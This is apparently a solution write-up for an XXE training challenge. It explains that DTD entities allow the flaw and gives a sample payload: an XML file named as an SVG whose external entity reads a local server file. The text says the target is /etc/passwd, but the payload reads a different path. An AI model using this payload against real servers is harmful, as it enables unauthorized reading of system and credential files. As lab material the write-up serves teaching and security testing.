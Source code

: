 ### Solution for "Improper Restriction of XML External Entity Reference ('XXE')" challenge

This challenge showcase a vulnerability thru DTDs which allow the creation of XML entities.

To pass the challenge simply create a xml file named as a svg file, which access the path **`/etc/passwd`**. Please reference the sample payload as below.

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///var/www/myapp/welcome.txt">]>
    <svg width="100" height="100"><text x="10" y="20" fill="red">&xxe;</text></svg>
